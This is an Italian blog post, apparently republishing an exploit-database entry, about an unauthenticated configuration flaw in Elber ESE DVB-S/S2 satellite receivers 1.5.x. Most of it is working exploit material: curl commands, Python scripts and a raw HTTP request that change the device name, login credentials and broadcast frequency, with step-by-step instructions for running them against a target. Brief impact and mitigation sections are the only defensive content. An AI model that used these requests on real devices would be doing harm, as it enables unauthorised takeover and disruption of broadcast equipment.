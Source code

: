 ```yaml
---
layout: post
title: '[webapps] Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Device Config' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# Elber ESE DVB-S/S2 Satellite Receiver 1.5.x - Device Config

## Introduzione

La vulnerabilità riguarda il dispositivo Elber ESE DVB-S/S2 Satellite Receiver con versioni 1.5.x. Questa vulnerabilità può consentire agli aggressori di accedere e manipolare le configurazioni del dispositivo, presentando un grave rischio per la sicurezza dei sistemi informativi aziendali.

## Dettagli della vulnerabilità

La vulnerabilità si manifesta attraverso un errore nelle procedure di autenticazione del dispositivo che permette l'accesso alle configurazioni del dispositivo senza alcuna forma di autenticazione. Le versioni interessate sono quelle della serie 1.5.x del firmware del dispositivo.

## Esempio di Payload Semplice

```bash
curl -X POST http://<target-ip>/html/device_config --data "DEVICE_NAME=<new-device-name>&LOGIN=user&PASSWD=admin"
```

## Conversione in Python del Payload Semplice

```python
import requests

url = "http://<target-ip>/html/device_config"
data = {"DEVICE_NAME": "<new-device-name>", "LOGIN": "user", "PASSWD": "admin"}
response = requests.post(url, data=data)
```

## Esempio di Payload Avanzato

```bash
curl -X POST http://<target-ip>/html/device_config --data "DEVICE_NAME=<new-device-name>&LOGIN=user&PASSWD=admin&FREQ=<new-frequency>"
```

## Conversione in Python del Payload Avanzato

```python
import requests

url = "http://<target-ip>/html/device_config"
data = {"DEVICE_NAME": "<new-device-name>", "LOGIN": "user", "PASSWD": "admin", "FREQ": "<new-frequency>"}
response = requests.post(url, data=data)
```

## Spiegazione tecnica

I comandi `curl` e gli script Python effettuano una richiesta HTTP POST al dispositivo target, inviando dati che cambiano la configurazione del dispositivo. Nel dettaglio, essi modificano il nome del dispositivo, le credenziali di login e la frequenza del dispositivo.

## Procedura per riprodurre la vulnerabilità

1. Identifica l'indirizzo IP del target (sostituisci `<target-ip>` nel comando).
2. Sostituisci `<new-device-name>` con il nuovo nome che desideri impostare per il dispositivo.
3. (Opzionale) Sostituisci `<new-frequency>` con la nuova frequenza che desideri impostare per il dispositivo.
4. Esegui il comando `curl` o lo script Python.

## Richiesta HTTP

```http
POST /html/device_config HTTP/1.1
Host: <target-ip>
Content-Type: application/x-www-form-urlencoded

DEVICE_NAME=<new-device-name>&LOGIN=user&PASSWD=admin&FREQ=<new-frequency>
```

## Impatto della vulnerabilità

Questa vulnerabilità può consentire a un attaccante di cambiare le impostazioni del dispositivo, incluso il nome del dispositivo, le credenziali di login e la frequenza operativa. Inoltre, un attaccante potrebbe sfruttare questa vulnerabilità per ottenere accesso non autorizzato al dispositivo, portando a possibili interruzioni del servizio o ulteriori attacchi.

## Patch e Mitigazioni

Al momento, non ci sono patch disponibili per questa specifica vulnerabilità. È fortemente consigliato limitare l'accesso al dispositivo solo a utenti fidati e monitorare attentamente tutte le attività sospette.

## Conclusione

Questa vulnerabilità sottolinea l'importanza di implementare adeguate politiche di sicurezza e procedure di autenticazione per tutti i dispositivi connessi in rete. È fondamentale tenere d'occhio le ultime notizie sulla sicurezza e applicare tempestivamente le patch quando vengono rilasciate.

